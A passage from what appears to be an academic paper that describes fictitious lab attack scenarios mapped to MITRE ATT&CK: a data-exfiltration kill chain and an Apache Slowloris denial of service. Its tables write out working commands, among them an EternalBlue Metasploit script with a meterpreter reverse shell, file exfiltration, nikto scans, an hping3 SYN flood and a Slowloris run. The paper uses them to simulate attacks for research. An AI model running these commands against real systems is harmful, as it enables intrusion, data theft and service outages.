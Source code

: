 mapped with those defined in the MITRE ATT&amp;CK taxonomy. In Figure 5, the succession of the stages of the attack is presented graphically.

Table 2. Detailed steps to perform the attack in Scenario 1.

| MITRE ATT &amp; CK   | Phase   | Tools                     | Actions and Commands                                                                                                                                                                                                                                                          |
|------------------|---------|---------------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| T1247            | 0       | N/A                       | N/A                                                                                                                                                                                                                                                                           |
| T1046            | 1       | Nmap                      | 'nmap -vvv -Pn -sV -sT -O %s' %(ip)                                                                                                                                                                                                                                           |
| T1349            | 2       | hping3; nikto; metasploit |                                                                                                                                                                                                                                                                               |
| T1068            | 3 and 4 | Metasploit                | Create script ethernalblue\_MFS.rc: 1- use exploit/windows/smb/ms17\_010\_eternalblue 2- set payload windows/x64/meterpreter/reverse\_tcp 3- set LHOST 192.168.124.1 4- set RHOST 192.168.126.1 5- exploit 'msfconsole -r %s' %FdExploit (%FdExploit is the folder of the script) |
| T1105            | 5       | N/A                       | From the Shell: 1- cd c: 2- cd Users\BOB\secret\ 3- dowload progetti\_segreti.pdf (supposed file to be exfiltrated)                                                                                                                                                            |
| T1498            | 6       | NIKTO                     | 'nikto -Tuning 390ab -h %s' %(ip) (IP of the Webserver)                                                                                                                                                                                                                       |
| T1046            | 7       | Hping3                    | 'hping3 -c 100 -S -p 53 -flood %s' %(ip) (IP of the Mail Server)                                                                                                                                                                                                              |

## Scenario Initialitation

Figure 5. Scenario 1-Cyber kill chain for Data Exfiltration.



Note that the cyber kill chain in all attack scenarios has a preliminary phase 0 , which occurs once the scenario execution starts. This phase indicates that the attacker has not yet taken any action and is thus why tools, actions and commands are not applicable.

## 4.4. Fictitious Scenario 2: Webserver Denial of Service

In this scenario, the adversary launches a Denial of Service (DoS) attack by taking advantage of the exploitation script (Slow Loris) against an Apache webserver vulnerable to CVE-2007-6750. This attack generates a certain number of requests that collapse the web server just by exhausting its threat pool for incoming petitions, rendering the server useless until the attack stops. Overall, this is a very economical scenario from the point of view of effort since it does not require excessively high bandwidth and the attacker only needs to compromise a single machine for success. It is especially dangerous since a vulnerable web server may become totally unavailable. The attacker does not need a large infrastructure since the attack is performed using very low bandwidth and only one compromised machine. The attack seeks to render the target's exposed services unavailable. The attackers use OSINT techniques to find the webserver's IP address. Then Slow Loris is launched to bring the server out of service. Curl against the target may be triggered in order to check the server's lack of response. Table 3 details the executed APT phases in compliance with the MITRE ATT&amp;CK taxonomy and its cyber kill chain. Figure 6 shows the flow of the execution of the attack according to each of the phases defined previously.

Table 3. Detailed steps to perform the attack in Scenario 2.

| MITRE ATT &amp; CK   |   Phase | Tools                        | Actions and Commands      |
|------------------|---------|------------------------------|---------------------------|
| T1247            |       0 | N/A                          | N/A                       |
| T1498            |       1 | perl + slowloris script [80] | perl slowloris.pl -dns ip |
